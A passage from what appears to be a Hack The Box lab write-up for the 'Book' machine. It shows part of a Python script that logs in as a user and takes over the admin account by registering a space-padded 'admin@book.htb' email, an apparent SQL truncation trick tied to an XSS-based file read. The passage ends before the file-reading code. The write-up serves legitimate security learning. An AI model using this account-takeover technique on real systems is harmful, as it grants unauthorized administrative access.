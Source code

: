 The table with the XSS seems to reset every minute, clearing out the
XSS, which is actually good as I want to read multiple files, and don't
need them stomping each other.

### Scripting File Read

#### Creating the Script

I didn't really need to do this, but it was a fun exercise to put all
this together into a terminal script that allowed me to get files from
Book. It took a fair bit of playing around in Burp comparing Python
requests with ones made from Firefox to make sure I understood which
headers mattered, and other things like that. The script is:



    #!/usr/bin/python3

    import requests
    from cmd import Cmd
    from tika import parser


    class Terminal(Cmd):
        prompt = "book> "
        base_url = "http://10.10.10.176"

        def __init__(self):
            super().__init__()
            email = "0xdf@book.htb"
            password = "0xdf"
            self.user_sess = requests.session()
            #self.user_sess.proxies = {'http':'http://127.0.0.1:8080'}
            self.user_sess.get(f'{self.base_url}/index.php')
            self.user_sess.post(f'{self.base_url}/index.php', data=f"name=0xdf&email={email}&password={password}",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            resp = self.user_sess.post(f'{self.base_url}/index.php', data=f"email={email}&password={password}",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            if "Nope" in resp.text:
                print("[-] Failed to log in as user")
                exit()
            print(f"Session created as user: {self.user_sess.cookies['PHPSESSID']}")

            self.admin_sess = requests.session()
            #self.admin_sess.proxies = {'http':'http://127.0.0.1:8080'}
            self.admin_sess.get(f'{self.base_url}/index.php')
            self.admin_sess.post(f'{self.base_url}/index.php', data="name=0xdf&email=admin@book.htb                 .&password=0xdf",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            resp = self.admin_sess.post(f'{self.base_url}/admin/', data='email=admin%40book.htb&password=0xdf',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            if "Nope" in resp.text:
                print("[-] Failed to log in as admin")
                exit()
            print(f'Session created as admin: {self.admin_sess.cookies["PHPSESSID"]}')
